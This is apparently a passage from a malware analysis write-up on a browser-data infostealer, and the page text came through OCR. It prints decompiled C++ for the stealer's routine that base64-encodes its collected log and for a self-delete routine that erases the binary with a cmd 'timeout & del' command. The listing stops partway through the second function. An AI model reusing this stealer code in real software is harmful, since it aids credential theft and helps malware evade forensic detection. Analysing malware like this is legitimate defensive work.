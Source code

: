The only interesting thing here is that it collects data from Vietnamese no-name browsers based on Chromium and that it collects data from the now defunct Russian browser Amigo and its follower Orbitum

# Log encryption

The collected log is stored in memory and encrypted using standard base64

```cpp
bool __cdecl crypt_log(LPSTR *out, size_t *pcchString, BYTE *pbBinary, DWORD cbBinary)
{
  HANDLE ProcessHeap_0; // eax
  CHAR *v6; // eax
  SIZE_T v7; // [esp-Ch] [ebp-10h]

  if ( !pbBinary )
    return 0;
  if ( !CryptBinaryToStringA(pbBinary, cbBinary, 0x40000001u, 0, pcchString) )
    return 0;
  v7 = *pcchString;
  ProcessHeap_0 = GetProcessHeap_0();
  v6 = (CHAR *)HeapAlloc_0(ProcessHeap_0, 0, v7);
  *out = v6;
  if ( !v6 )
    return 0;
  memset(v6, 0, *pcchString);
  return CryptBinaryToStringA(pbBinary, cbBinary, 0x40000001u, *out, pcchString);
}
```

# Self delete

This function will remove the malware after successful execution if the parameter responsible for this is true in the config received from the server

```cpp
void __noreturn self_delete()
{
  DWORD pid; // eax
  int file_name; // eax
  bool v2; // cf
  SHELLEXECUTEINFOA pExecInfo; // [esp+10h] [ebp-16Ch] BYREF
  void *v4[7]; // [esp+4Ch] [ebp-130h] BYREF
  CHAR shell_comand[272]; // [esp+68h] [ebp-114h] BYREF
  int v6; // [esp+178h] [ebp-4h]

  memset(shell_comand, 0, 0x104u);
  memset(&pExecInfo, 0, sizeof(pExecInfo));
  lstrcatA_0(shell_comand, "/c ");
  lstrcatA_0(shell_comand, "timeout /t 6 & del /f /q \"");
  pid = GetCurrentProcessId_0();
  file_name = get_file_name((int)v4, pid);
  v2 = *(_DWORD *)(file_name + 20) < 0x10u;
  v6 = 0;
  if ( !v2 )
    file_name = *(_DWORD *)file_name;
  lstrcatA_0(shell_comand, (LPCSTR)file_name);
  v6 = -1;
  std::string::_Tidy(v4, 1, 0);
  lstrcatA_0(shell_comand, "\" & exit");
  pExecInfo.lpParameters = shell_comand;
  pExecInfo.cbSize = 60;
  pExecInfo.fMask = 0;
  pExecInfo.hwnd = 0;
```